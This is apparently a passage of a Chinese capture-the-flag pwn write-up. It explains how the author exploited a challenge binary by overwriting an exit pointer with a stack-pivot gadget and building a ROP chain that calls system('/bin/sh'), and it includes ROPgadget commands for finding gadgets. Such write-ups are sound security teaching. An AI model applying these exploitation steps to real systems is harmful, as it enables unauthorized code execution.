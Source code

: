 ## 步骤四: 利用泄露控制执行流
让我们再来看可利用三个函数的第一个函数，其中 `m_level` 为 11.
```cpp
char __fastcall input_ascii_artwork(__int64 a1)
{
  int result = (float)g_level > (float)m_level;
  if ( result )
  {
    cout << "input unit ascii artwork : " << endl;
    cin >> (a1 + 32);
  }
  return result;
}
```
发现我们可以往 `a1 + 32` 中输入非常多的数据，刚才说了 `a1 + 0x128` 存储 `exit`，如果把它覆盖为 `one_gadget` 的话..
实际上本机确实可以通过这样的方式！！但是服务器却很惨: `one_gadget` 全部失效...

## 步骤五: Stack pivoting
当时真的绝望，后来发邮件问了 **Veritas501** 师傅才终于做出来，非常感谢师傅！
关键点是利用开头的那个语句，现在重新写一下，其中 `haystack` 是栈里面的变量。
```cpp
if ( v17 )
{
    cout << "your command : "; 
    cin >> haystack; // 因为有 canary 所以不会有溢出攻击
    // 一个很鸡肋的函数
    final_cmd(v18, &haystack);
}
```
关键点是利用 `stack pivoting`，这种是先调整栈位置再进行攻击，如 `add rsp, xxx; ret`.

这题正确做法是我们不把 `exit` 改成 `one_gadget`，而是改成这条语句: `add rsp, 0x18; ret`.
通过改成这条语句， `rsp` 会指向 `haystack` 里的内容，所以我们就可以通过构造 `haystack` 的内容来完成攻击！

最终构造 `haystack = 'A' * 24 + p64(pop_rdi) + p64(bin_sh_address) + p64(system_address)`.
这样的流程如下
- 程序想要让 user 执行 `exit` 
- 执行了 `add rsp, 0x18; ret` 
- `rsp` 跑到 `haystack` 上的 `p64(pop_rdi)` 
- `ret` 因此返回到了 `pop rdi; ret` 
- `rdi` 赋值为 `bin_sh` 地址 
- `ret` 返回到了 `system_address`，搞定。

## 番外篇
1. 如何查看程序是否有，以及如果有后返回 `bin_sh` 的地址
```bash
ROPgadget --binary libc.so.6 --string "/bin/sh"
```

2. 如何查看程序哪里有 `stack pivoting`
```bash
ROPgadget --binary libc.so.6 --only "add|ret" | grep rsp
```
